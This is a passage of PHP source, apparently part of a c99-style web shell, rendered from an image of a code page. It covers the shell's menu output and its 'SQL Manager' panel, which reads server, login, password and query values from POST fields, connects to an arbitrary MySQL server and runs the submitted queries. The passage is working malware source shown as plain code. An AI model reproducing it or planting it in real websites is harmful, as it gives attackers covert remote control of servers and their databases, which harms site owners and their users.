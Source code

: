   echo "&lt;a href=\"".$item[1]."\"&gt;".$item[0]."&lt;/a&gt;&nbsp;&nbsp;&nbsp;&nbsp;";
 }
}
echo "&lt;/p&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;br&gt;";
if ((!empty($donated_html)) and (in_array($act,$donated_act))) {echo "&lt;TABLE style=\"BORDER-COLLAPSE: collapse\" cellSpacing=0 borderColorDark=#666666 cellPadding=5 width=\"100%\" bgColor=#333333 borderColorLight=#c0c0c0 border=1&gt;&lt;tr&gt;&lt;td width=\"100%\" valign=\"top\"&gt;".$donated_html."&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;br&gt;";}
echo "&lt;TABLE style=\"BORDER-COLLAPSE: collapse\" cellSpacing=0 borderColorDark=#666666 cellPadding=5 width=\"100%\" bgColor=#333333 borderColorLight=#c0c0c0 border=1&gt;&lt;tr&gt;&lt;td width=\"100%\" valign=\"top\"&gt;";
if ($act == "") {$act = $dspact = "ls";}
if ($act == "sql")
{
 echo("&lt;form name='sql' method='POST'&gt;&lt;input name='act' type='hidden' value='sql'&gt;&lt;input name='sql_tbl_insert_q' type='hidden' value=''&gt;&lt;input name='sql_login' type='hidden' value=''&gt;&lt;input name='kill' type='hidden' value=''&gt;&lt;input name='sql_order' type='hidden' value=''&gt;&lt;input name='sql_tbl_ls' type='hidden' value=''&gt;&lt;input name='sql_tbl_le' type='hidden' value=''&gt;&lt;input name='sql_tbl_act' type='hidden' value=''&gt;&lt;input name='thistbl' type='hidden' value=''&gt;&lt;input name='sql_passwd' type='hidden' value=''&gt;&lt;input name='sql_server' type='hidden' value=''&gt;&lt;input name='sql_port' type='hidden' value=''&gt;&lt;input name='sql_db' type='hidden' value=''&gt;&lt;input name='sql_act' type='hidden' value=''&gt;&lt;input name='sql_tbl' type='hidden' value=''&gt;&lt;input name='f' type='hidden' value=''&gt;&lt;input name='ft' type='hidden' value=''&gt;&lt;input name='sql_query' type='hidden' value=''&gt;&lt;/form&gt;");

 if (isset($_POST['sql_login']))  {$sql_login=htmlspecialchars($_POST['sql_login']);}
 if (isset($_POST['sql_passwd'])) {$sql_passwd=htmlspecialchars($_POST['sql_passwd']);}
 if (isset($_POST['sql_server'])) {$sql_server=htmlspecialchars($_POST['sql_server']);}
 if (isset($_POST['sql_port']))   {$sql_port=htmlspecialchars($_POST['sql_port']);}
 if (isset($_POST['sql_db']))     {$sql_db=htmlspecialchars($_POST['sql_db']);}
 if (isset($_POST['sql_act']))     {$sql_act=htmlspecialchars($_POST['sql_act']);}
 if (isset($_POST['sql_tbl']))     {$sql_tbl=htmlspecialchars($_POST['sql_tbl']);}
 if (isset($_POST['sql_tbl_act']))     {$sql_tbl_act=htmlspecialchars($_POST['sql_tbl_act']);}
 if (isset($_POST['thistbl']))     {$thistbl=htmlspecialchars($_POST['thistbl']);}
 if (isset($_POST['sql_order']))     {$sql_order=htmlspecialchars($_POST['sql_order']);}
 if (isset($_POST['sql_tbl_ls']))     {$sql_tbl_ls=htmlspecialchars($_POST['sql_tbl_ls']);}
 if (isset($_POST['sql_tbl_le']))     {$sql_tbl_le=htmlspecialchars($_POST['sql_tbl_le']);}
 if (isset($_POST['sql_query']))     {$sql_query=htmlspecialchars($_POST['sql_query']);}
 if (isset($_POST['sql_tbl_insert_q'])) {$sql_tbl_insert_q=urldecode(htmlspecialchars($_POST['sql_tbl_insert_q']));}
 if (isset($_POST['sql_tbl_insert_functs'])) {$sql_tbl_insert_functs=htmlspecialchars($_POST['sql_tbl_insert_functs']);}
 if (isset($_POST['sql_tbl_insert_radio'])) {$sql_tbl_insert_radio=htmlspecialchars($_POST['sql_tbl_insert_radio']);}



 ?&gt;&lt;TABLE style="BORDER-COLLAPSE: collapse" height=1 cellSpacing=0 borderColorDark=#666666 cellPadding=5 width="100%" bgColor=#333333 borderColorLight=#c0c0c0 border=1 bordercolor="#C0C0C0"&gt;&lt;tr&gt;&lt;td width="100%" height="1" colspan="2" valign="top"&gt;&lt;center&gt;&lt;?php
 if ($sql_server)
 {
  $sql_sock = mysql_connect($sql_server.":".$sql_port, $sql_login, $sql_passwd);
  $err = mysql_smarterror();
  @mysql_select_db($sql_db,$sql_sock);
  if ($sql_query and $submit) {$sql_query_result = mysql_query($sql_query,$sql_sock); $sql_query_error = mysql_smarterror();}
 }
 else {$sql_sock = FALSE;}
 echo "&lt;b&gt;SQL Manager:&lt;/b&gt;&lt;br&gt;";
 if (!$sql_sock)
 {
  if (!$sql_server) {echo "NO CONNECTION";}
  else {echo "&lt;center&gt;&lt;b&gt;Can't connect&lt;/b&gt;&lt;/center&gt;"; echo "&lt;b&gt;".$err."&lt;/b&gt;";}